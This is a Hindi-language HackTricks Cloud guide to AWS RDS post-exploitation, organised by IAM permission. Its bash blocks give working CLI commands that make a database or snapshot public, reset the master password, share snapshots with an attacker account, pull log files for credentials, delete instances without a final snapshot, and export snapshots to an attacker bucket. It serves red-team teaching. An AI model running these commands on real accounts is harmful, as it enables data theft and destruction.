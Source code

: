 # AWS - RDS पोस्ट एक्सप्लॉइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## RDS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

यदि हमलावर के पास पर्याप्त अनुमतियाँ हैं, तो वह **DB को सार्वजनिक रूप से उपलब्ध** बना सकता है, DB का स्नैपशॉट बनाकर, और फिर स्नैपशॉट से एक सार्वजनिक रूप से उपलब्ध DB बनाकर।
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

इन अनुमतियों के साथ एक हमलावर **DB का स्नैपशॉट बना सकता है** और इसे **सार्वजनिक रूप से** **उपलब्ध** कर सकता है। फिर, वह बस अपने खाते में उस स्नैपशॉट से एक DB बना सकता है।

यदि हमलावर के पास **`rds:CreateDBSnapshot`** नहीं है, तो भी वह **अन्य** बनाए गए स्नैपशॉट्स को **सार्वजनिक** बना सकता है।

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` अनुमति वाला एक हमलावर **RDS इंस्टेंस की लॉग फ़ाइलों के हिस्से डाउनलोड कर सकता है**। यदि संवेदनशील डेटा या पहुँच क्रेडेंशियल्स गलती से लॉग किए जाते हैं, तो हमलावर इस जानकारी का उपयोग करके अपनी विशेषाधिकारों को बढ़ा सकता है या अनधिकृत क्रियाएँ कर सकता है।

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी तक पहुँच या लीक किए गए क्रेडेंशियल्स का उपयोग करके अनधिकृत क्रियाएँ।

### `rds:DeleteDBInstance`

इन अनुमतियों के साथ एक हमलावर **मौजूदा RDS इंस्टेंस को DoS कर सकता है**।

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**संभावित प्रभाव**: मौजूदा RDS उदाहरणों का हटाना, और डेटा का संभावित नुकसान।

### `rds:StartExportTask`

{% hint style="info" %}
TODO: परीक्षण करें
{% endhint %}

इस अनुमति के साथ एक हमलावर **एक RDS उदाहरण स्नैपशॉट को S3 बकेट में निर्यात कर सकता है**। यदि हमलावर के पास गंतव्य S3 बकेट पर नियंत्रण है, तो वे निर्यात किए गए स्नैपशॉट के भीतर संवेदनशील डेटा तक पहुंच प्राप्त कर सकते हैं।

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**संभावित प्रभाव**: निर्यातित स्नैपशॉट में संवेदनशील डेटा तक पहुंच।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
